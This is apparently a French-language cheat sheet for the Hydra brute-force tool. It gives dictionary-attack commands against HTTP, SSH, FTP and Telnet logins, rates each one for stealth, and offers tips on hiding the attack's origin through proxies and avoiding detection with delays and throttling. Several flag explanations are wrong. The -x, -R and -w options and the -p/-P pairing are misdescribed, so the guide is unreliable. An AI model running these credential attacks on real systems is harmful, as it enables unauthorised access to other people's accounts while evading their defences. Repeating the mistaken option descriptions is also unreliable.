 #### Introduction

Hydra (ou THC-Hydra) est un outil open-source utilisé pour effectuer des attaques par force brute sur divers protocoles de connexion. Il est capable de tester des millions de combinaisons de mots de passe pour trouver les informations d'authentification correctes.

#### Installation de Hydra

**Sous Debian/Ubuntu**

```bash
sudo apt update
sudo apt install hydra
```

**Sous Windows**

1. **Télécharger Hydra pour Windows** depuis le [site de THC](https://github.com/vanhauser-thc/thc-hydra).
2. **Décompresser le fichier téléchargé** et utiliser les binaires fournis.

#### Commandes de Base

1.  **Lancer une attaque par dictionnaire sur un service HTTP**

    ```bash
    hydra -l <username> -P <password_file> <target> http-get /login
    ```

    * **Explication** : `-l` spécifie un nom d'utilisateur, `-P` indique le fichier contenant les mots de passe, `<target>` est l'adresse IP ou le domaine, et `http-get /login` précise le chemin d'URL où se trouve le formulaire de connexion.
    * **Discrétion** : Faible à moyenne. Les tentatives de connexion peuvent être détectées par des systèmes de surveillance ou des IDS.
2.  **Lancer une attaque par dictionnaire sur un service SSH**

    ```bash
    hydra -l <username> -P <password_file> ssh://<target>
    ```

    * **Explication** : `ssh://<target>` indique que l'attaque cible un service SSH.
    * **Discrétion** : Faible. Les tentatives de connexion SSH peuvent générer des alertes.
3.  **Lancer une attaque par dictionnaire sur un service FTP**

    ```bash
    hydra -l <username> -P <password_file> ftp://<target>
    ```

    * **Explication** : `ftp://<target>` indique que l'attaque cible un service FTP.
    * **Discrétion** : Faible. Les services FTP peuvent détecter les tentatives de connexion répétées.
4.  **Lancer une attaque par dictionnaire avec une liste de noms d'utilisateur**

    ```bash
    hydra -L <user_file> -P <password_file> <target> ssh
    ```

    * **Explication** : `-L` spécifie un fichier contenant plusieurs noms d'utilisateur, tandis que `-P` est le fichier de mots de passe.
    * **Discrétion** : Faible. Les tentatives avec plusieurs noms d'utilisateur peuvent générer plus de trafic réseau.
5.  **Attaque par force brute avec un protocole spécifique (ex: telnet)**

    ```bash
    hydra -L <user_file> -P <password_file> telnet://<target>
    ```

    * **Explication** : Cible un service Telnet avec une liste d'utilisateurs et de mots de passe.
    * **Discrétion** : Faible. Telnet est souvent surveillé pour des tentatives de connexion suspectes.

#### Options Avancées

1.  **Définir un nombre limité de tentatives**

    ```bash
    hydra -l <username> -P <password_file> -t 4 <target> ssh
    ```

    * **Explication** : `-t` définit le nombre de threads simultanés pour les tentatives de connexion. Par exemple, `-t 4` lance quatre threads en parallèle.
    * **Discrétion** : Moyenne à élevée. Moins de threads peuvent réduire le risque d'être détecté par les systèmes de surveillance.
2.  **Utiliser un proxy pour masquer l'origine**

    ```bash
    hydra -l <username> -P <password_file> -e ns <target> ssh -s 22 -x <proxy>
    ```

    * **Explication** : `-x` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy peut rendre l'attaque plus difficile à tracer jusqu'à son origine.
3.  **Limiter le nombre de tentatives par IP**

    ```bash
    hydra -l <username> -P <password_file> -R -e ns <target> ssh
    ```

    * **Explication** : `-R` active la limitation du nombre de tentatives pour éviter d'être bloqué par des mécanismes de défense.
    * **Discrétion** : Moyenne à élevée. Limite le nombre de tentatives pour réduire la détection.
4.  **Ajouter des délais entre les tentatives**

    ```bash
    hydra -l <username> -P <password_file> -w 5 <target> ssh
    ```

    * **Explication** : `-w` définit le délai en secondes entre chaque tentative pour éviter de générer une charge excessive et attirer l'attention.
    * **Discrétion** : Haute. Les délais réduisent le nombre de requêtes envoyées en un temps donné.
5.  **Utiliser une liste de mots de passe alternatifs**

    ```bash
    hydra -l <username> -P <password_file> -p <password> <target> ssh
    ```

    * **Explication** : `-p` permet d'ajouter un mot de passe spécifique en plus de ceux de la liste.
    * **Discrétion** : Moyenne à haute. Tester des mots de passe spécifiques peut augmenter les chances de succès tout en maintenant une discrétion accrue.

#### Exemples de Scénarios

1.  **Attaque sur un service HTTP avec un dictionnaire de mots de passe**

    ```bash
    hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.10/login
    ```

    * **Explication** : Teste les mots de passe dans `/path/to/passwords.txt` pour l'utilisateur `admin` sur le service HTTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les attaques HTTP peuvent être détectées par les systèmes de journalisation des serveurs web.
2.  **Attaque sur un service FTP avec des utilisateurs et des mots de passe**

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ftp://192.168.1.10
    ```

    * **Explication** : Teste toutes les combinaisons d'utilisateurs et de mots de passe pour un service FTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les services FTP sont souvent configurés pour détecter les tentatives de connexion brutales.
3.  **Attaque SSH avec un proxy pour masquer l'origine**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -e ns -x socks5://proxyserver:1080 ssh://192.168.1.10
    ```

    * **Explication** : Utilise un proxy SOCKS5 pour masquer l'origine des tentatives de connexion SSH.
    * **Discrétion** : Haute. L'utilisation d'un proxy ajoute une couche de dissimulation.
4.  **Attaque par dictionnaire avec un délai entre les tentatives**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -w 10 -e ns ssh://192.168.1.10
    ```

    * **Explication** : Ajoute un délai de 10 secondes entre chaque tentative de connexion pour réduire la détection.
    * **Discrétion** : Haute. Les délais peuvent éviter de déclencher des alarmes pour des tentatives de connexion rapide.



